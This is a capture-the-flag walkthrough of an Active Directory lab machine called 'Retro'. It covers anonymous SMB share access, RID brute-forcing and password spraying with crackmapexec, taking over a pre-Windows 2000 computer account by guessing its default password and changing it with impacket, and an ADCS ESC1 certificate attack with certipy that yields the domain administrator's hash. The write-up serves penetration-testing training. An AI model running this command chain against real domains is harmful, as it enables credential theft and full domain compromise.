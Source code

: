 

![](Retro_Cover.png)


## INFO


```
[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```


![](Geust_Smb.png)




Guest / Anonymous Access to the share with READ permissions !


```
# cat Important.txt
Dear Trainees,

I know that some of you seemed to struggle with remembering strong and unique passwords.
So we decided to bundle every one of you up into one account.
Stop bothering us. Please. We have other stuff to do than resetting your password every day.

Regards

The Admins
```


Lets grab the usernames , and do some password spray'n.

```
└─# crackmapexec smb 10.10.97.162 -u guest -p '' --rid-brute
```


```
└─# crackmapexec smb 10.10.97.162 -u user_lst -p user_lst --no-bruteforce --continue-on-success
```

Cool ! The password of common trainee user account is `trainee`.

We got access to Notes share.


![](Notes-Share.png)


```
# cat ToDo.txt
Thomas,

after convincing the finance department to get rid of their ancienct banking software it is finally time to clean up the mess they made. We should start with the pre created computer account. That one is older than me.

Best
James
```


Cool ! Now what's Pre-Created Computer Account and how can we leverage that into an attack ? 



## Pre-Created Computer Accounts


Pre-creating a computer means adding a computer object to AD without using it to join a host to the domain right away, so it can be used at a later time.

When you pre-create computer accounts with the **Assign this computer account as a pre-Windows 2000 computer** checkmark, the password for the computer account becomes the same as the computer account in lowercase. For instance, the computer account `DavesLaptop$` would have the password `daveslaptop`.



There's BANKING$ computer account , which we got while bruteforcing the usernames. Lets check which password banking.


```
└─# crackmapexec smb 10.10.97.162 -u BANKING$ -p banking
```

![](Pre_Created_.png)

Now in order to use this account , first we need to force change the password and attempt to login .!

```
└─# impacket-changepasswd retro.vl/'BANKING$':banking@10.10.97.162 -newpass p@ssw0rd -p rpc-samr
```

![](Change_Password.png)


Cool ! Enumerating ADCS , we found RetroClients Cert. is vulnerable to ESC1.

```
└─# certipy-ad find -username 'trainee@retro.vl' -password 'trainee' -enabled -dc-ip 10.10.97.162 -stdout -vulnerable
```


![](ESC1_Attack.png)

Requesting a ticket impersonating administrator .
```
└─# certipy-ad req -username 'BANKING$@retro.vl' -password 'p@ssw0rd' -dc-ip 10.10.97.162 -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl -target DC.retro.vl -key-size 4096
```

![](Certipy_Req.png)

```
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.97.162
```

![](Certipy_auth.png)

Got hash of the administrator !

THE DC HAS BEEN PWNED !!



## NOTE

Certipy failed with the `CERTSRV_E_KEY_LENGTH` which means that the public key does not meet the minimum size required by the specified certificate template.
```
Check at the template --> Minimum RSA Key Length , and change it in the command.     -key-size ....
```


https://medium.com/@offsecdeer/finding-weak-ad-computer-passwords-e3dc1ed220df
https://trustedsec.com/blog/diving-into-pre-created-computer-accounts
https://github.com/ly4k/Certipy
